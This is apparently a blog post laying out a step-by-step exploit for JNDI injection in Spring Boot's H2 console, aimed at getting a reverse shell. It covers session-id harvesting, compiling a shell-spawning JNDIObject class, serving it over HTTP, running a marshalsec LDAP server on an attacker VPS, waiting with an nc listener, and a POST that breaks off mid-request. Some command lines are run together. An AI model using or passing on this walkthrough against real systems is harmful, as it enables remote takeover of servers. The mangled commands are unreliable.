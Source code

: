 **How to use:**

[](https://www.blogger.com/#)**Step 1**: Access the route to get session id

- Directly access the target to open the default route of h2 console /h2-console, the target will jump to the page /h2-console/login.jsp?jsessionid=xxxxxxand record the actual jsessionid=xxxxxxvalue 

[](https://www.blogger.com/#)**Step 2:** Prepare the Java code for execution

[Write an optimized Java sample code](https://raw.githubusercontent.com/LandGrey/SpringBootVulExploit/master/codebase/JNDIObject.java) to bounce the shell JNDIObject.java,

Compile in a way compatible with lower versions of JDK:

```
javac - source 1.5 -target 1.5 JNDIObject.java
```

Then copy the generated JNDIObject.classfile to the root directory of the website in step 2.\
[](https://www.blogger.com/#)**Step 3:** Managed class files

Open a simple HTTP server on the vps machine you control, and try to use common HTTP service ports (80, 443)

```
# Use python to quickly start the http serverpython2 -m SimpleHTTPServer 80python3 -m http.server 80
```

Copy the compiled class file in step 2 to the root directory of the HTTP server.\
[](https://www.blogger.com/#)**Step 4: **Set up a malicious LDAP service

Download [marshalsec](https://github.com/mbechler/marshalsec) and use the following commands to set up the corresponding LDAP service:

|

java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer [http://your-vps-ip:80/](http://your-vps-ip/)#JNDIObject 1389

 |

[](https://www.blogger.com/#)**Step 5:** Listen to the port of the bounce shell

Generally, use nc to listen to the port and wait for the rebound shell

```
nc -lv 443
```

**Step 6: **Send a packet to trigger JNDI injection

- According to the actual situation, replace jsessionid=xxxxxx, and in the following data www.example.com ldap://your-vps-ip:1389/JNDIObject

|

POST /h2-console/login.do?jsessionid=xxxxxx

Host: [www.example.com](http://www.example.com/)
